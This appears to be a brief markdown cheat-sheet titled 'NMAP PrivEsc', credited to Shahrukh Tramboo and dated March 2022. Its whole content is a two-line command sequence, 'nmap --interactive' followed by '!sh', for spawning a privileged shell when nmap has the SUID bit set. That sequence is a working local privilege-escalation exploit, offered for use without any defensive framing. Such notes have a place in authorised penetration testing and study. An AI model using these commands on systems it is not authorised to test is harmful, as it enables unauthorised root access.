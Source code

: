# NMAP PrivEsc

> Shahrukh Tramboo | March 18th, 2022

--------------------------------------

# Interactive (if SUID bit set)

```bash
nmap --interactive

!sh
```
